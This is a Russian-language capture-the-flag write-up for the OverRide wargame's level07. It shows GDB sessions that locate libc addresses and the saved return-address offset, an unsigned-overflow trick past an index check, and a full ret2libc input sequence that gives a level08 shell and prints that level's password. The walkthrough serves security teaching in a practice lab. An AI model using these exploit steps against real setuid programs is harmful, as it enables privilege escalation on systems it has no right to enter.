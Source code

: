 [back](../defense.md)

В каталоге этого уровня прога принадлежит владельцу следующего уровня

```
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

Посмотрим, что делает прога:

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------
Input command: store
 Failed to do ыstore command
Input command: command
Input command: store
 Number: 21
 Index: 21
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 21
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 21
 Completed read command successfully
Input command: quit
level07@OverRide:~$
```

Посмотрим код:

```
(gdb) i func
    0x080485c4  clear_stdin            
    0x080485e7  get_unum                ; read number from stdin
    0x0804861f  prog_timeout
    0x08048630  store_number            
    0x080486d7  read_number            
    0x08048723  main                    
```

Код содержит интересные нам функции: read_number, store_number, get_unum, clear_stdin и main.

Программа предоставляет нам 3 команды:

- quit (что позволяет нам выйти из программы), 

- store (сохранение числа в массиве) и 

- read (для чтения любого поля в этом массиве).

Но функция чтения индекс не проверяет, а для функции сохранения у нас есть два ограничения: индекс не может быть кратен 3 и номер не может начинаться с 0xb7000000 (системный вызов).

Попытаемся переопределить системный вызов и попытаться перезаписать адрес, содержащий EIP (is a register in x86 architectures (32bit). 

It holds the "Extended Instruction Pointer" for the stack. 

In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.)

вызовом system() + exit() + "/bin/sh" для выполнения ret2libc.

Для этого надо: 

- найти адрес system(), exit(), bin/sh

- рассчитать «индекс» EIP

- использовать переполнение maxint для доступа к защищенным индексам

- запустить эксплойт, введя вредоносный номер + индекс для запущенной программы

Ищем адреса system(), exit(), bin/shsh

```
(gdb) b *main
    Breakpoint 1 at 0x8048723
(gdb) r
    Starting program: /home/users/level07/level07
    Breakpoint 1, 0x08048723 in main ()
(gdb) p system
    $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
    $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
    0xf7f897ec
    warning: Unable to access target memory at 0xf7fd3b74, halting search.
    1 pattern found.
(gdb) x/s 0xf7f897ec
    0xf7f897ec:	 "/bin/sh"
```

Теперь у нас есть адреса:

```
0xf7e6aed0 <system> = 4159090384
0xf7e5eb70 <exit> = 4159040368
0xf7f897ec:	 "/bin/sh" = 4160264172
```

Теперь ищем смещение и адрес нашей таблицы
```
(gdb) b *main+520
Breakpoint 1 at 0x804892b
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------
Input command: read
Breakpoint 1, 0x0804892b in main () ;0x0804892b <+520>:	call   0x80486d7 <read_number>
(gdb) i f
    Stack level 0, frame at 0xffffd6d0:
    eip = 0x804892b in main; saved eip 0xf7e45513
    Arglist at 0xffffd6c8, args:
    Locals at 0xffffd6c8, Previous frames sp is 0xffffd6d0
    Saved registers:
    ebx at 0xffffd6bc, ebp at 0xffffd6c8, esi at 0xffffd6c0, edi at 0xffffd6c4, eip at 0xffffd6cc (последний адрес eip)
(gdb) i r
    eax            0xffffd504	-11004      ; адрес начала массива
    ecx            0xffffd600	-10752
    edx            0xffffd600	-10752
    ebx            0xffffd504	-11004
    esp            0xffffd4e0	0xffffd4e0
    ebp            0xffffd6c8	0xffffd6c8
    esi            0xffffd69c	-10596
    edi            0x8048d65	134516069
    eip            0x804892b	0x804892b <main+520>
    eflags         0x246	[ PF ZF IF ]
    cs             0x23	35
    ss             0x2b	43
    ds             0x2b	43
    es             0x2b	43
    fs             0x0	0
    gs             0x63	99

0xffffd504, хранящийся в $eax (первый аргумент read_number), а адрес eip — 0xffffd6cc.
Вычитая одно из другого получаем смещение. Т.к. у нас 4 таблицы, делим на 4.
(gdb) p 0xffffd6cc - 0xffffd504
$1 = 456
(gdb) p 456 / 4
$2 = 114
Итак, смещение составляет 456 байт или 114 целых чисел.
Записать напрямую в 114 из-за ограничения, кратного 3, в read_number.
Поэтому мы попытаемся выполнить переполнение для записи на этот адрес. Таким образом, мы вычисляем:
UINT_MAX (4294967295 + 1) / 4 + 114 = 1073741938
UINT_MAX + 1 переполнение

Получаем адреса, необходимые для создания ret2libc:
system(): 0xf7e6aed0: 4159090384
exit(): 0xf7e5eb70: 4159040368
"/bin/sh": 0xf7f897ec: 4160264172

В массиве по индексу 114 мы поместим системный адрес, 
по индексу 115 exit и по индексу 116 "/bin/sh".

Пробуем:
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wils crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
    level08
$ cat /home/users/level08/.pass
    7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
Уровень пройден.

[back](../defense.md)
